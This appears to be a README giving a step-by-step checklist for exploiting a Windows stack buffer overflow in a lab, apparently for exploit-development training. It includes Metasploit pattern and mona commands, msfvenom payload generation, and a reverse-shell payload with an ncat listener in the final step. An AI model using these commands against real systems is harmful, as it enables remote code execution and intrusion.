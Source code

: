 # Steps :
## 1. Crash the application
Fuzz it with 1-fuzzing.py until it crashes. Find out how it crashed and if needed send a buffer larger than the one that crashed it in order to make sure that there is at least 400 bytes of room for the payload after $ESP.

**Checklist :**
* EIP is overwritten
* At least the 400 bytes that follow $ESP are overwritten
 
**Result :**
* A payload length that crashes the application

## 2. Locate the bytes that overwrite the EIP
Use 2-location.py to send a payload the same size as the one that previously crashed the application but that contains a recognisable pattern :
```
/opt/metasploit/tools/exploit/pattern_create.rb -l $SIZE
```
__Avoiding bad characters :__ Use the -s option if needed

Find the offset of the bytes that overwrite the EIP :
```
/opt/metasploit/tools/exploit/pattern_offset.rb -l $SIZE -q 34694133
```
__Note :__ There is no need to change the EIP bytes' order when searching its offset.

**Result :** 
* The offset of the bytes that override the EIP

## 3. Find the bad characters
Use 3-badchars.py to send a buffer that, after the EIP, will contain all ASCII characters to check for bad characters.
Bad characters will either simply not appear on the stack or mangle the characters that follow them.
Mona can look for bad characters :
```
!mona bytearray
!mona compare -f bytearray.bin -a ADDRESS_WHERE_ASCII_CHARACTERS_START
```

**Checklist :** 
* All the characters that aren't listed as bad must properly appear on the stack

**Result :** 
* A list of bad characters

## 4. Pop calc
As a first exploit, popping calc.exe is a way to make sure that code can be executed in a way that is less error-prone than going straight for a reverse shell. Use 4-exploit-calc.py for this.

## 4.1 Find an address that contains a JMP ESP instruction
List the modules to find one that doesn't have ASLR and NX bits :
```
!mona modules
```

Find the hex equivalent of the desired instruction (e.g JMP ESP)
```
/usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb
nasm > jmp esp
00000000 FFE4 jmp esp
```

Find the desired instruction :
```
!mona find -s "\xff\xe4" -m slmfc.dll
!mona jmp -r ESP
```
Chose one that does **not** contain a bad character.
In the exploit, it needs to be reversed because of **little-endianness** :
"5f 4a 35 8f" -> "\x8f\x35\x4a\x5f"

## 4.2 Generate a payload and send the exploit
Then generate a payload with msfvenom :
```
msfvenom -p windows/exec CMD=calc.exe -f c -e "x86/shikata_ga_nai" -b "\x00\x0a\x0d"
```
If needed, wheck on the target if calc.exe is running using `tasklist` in an elevated command prompt.


**Checklist :**
* The address where JMP ESP is does not change when the program / host is restarted

**Result :**
* A working exploit that starts calc.exe


## 5. Get a reverse shell
Using 5-exploit.py and the information obtained in step 4, get a reverse shell.
To listen for the reverse shell :
```
ncat -lvnp 8080
```

To generate the exploit :
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=8080 -f c -e "x86/shikata_ga_nai" -b "\x00\x0a\x0d"
```

